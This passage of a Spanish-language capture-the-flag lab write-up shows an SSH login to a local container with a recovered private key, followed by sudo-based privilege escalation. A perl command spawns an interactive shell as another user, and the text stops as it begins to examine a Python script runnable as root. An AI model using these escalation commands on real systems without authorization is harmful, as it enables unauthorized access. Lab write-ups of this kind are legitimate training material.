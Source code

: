 <p>Creamos un archivo llamado id_rsa en nuestro .ssh y tratamos de conectarnos</p>

```shell
ssh vaxei@172.17.0.2
```

```shell
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:KZdmmK93JpQdEgEdRl0JYVD4l+Gdfix6KM9aUmZc1lA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sat Aug 10 02:25:09 2024 from 172.17.0.1
vaxei@32fca1d7c92f:~$ 
```
## Escalada de privilegios

```shell
vaxei@32fca1d7c92f:~$ sudo -l
```

```shell
Matching Defaults entries for vaxei on 32fca1d7c92f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User vaxei may run the following commands on 32fca1d7c92f:
    (luisillo) NOPASSWD: /usr/bin/perl
```
<p>Vemos que podemos ejecutar perl como el usuario luisillo, para conseguir una shell con este usuario utilizarmos el siguiente comando:</p>

```shell
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash -i";'
```

```shell
luisillo@32fca1d7c92f:/home/vaxei$ whoami
luisillo
```
<p>Ahora que somos el usuario luisillo buscamos de nuevo una forma de loguearnos como root</p>

```shell
luisillo@32fca1d7c92f:~$ sudo -l
```
```shell
Matching Defaults entries for luisillo on 32fca1d7c92f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 32fca1d7c92f:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py

```
<p>La salida nos muestra que podemos ejecutar el programa /opt/paw.py como el usuario root</p>
<p>El programa es el siguiente: </p>
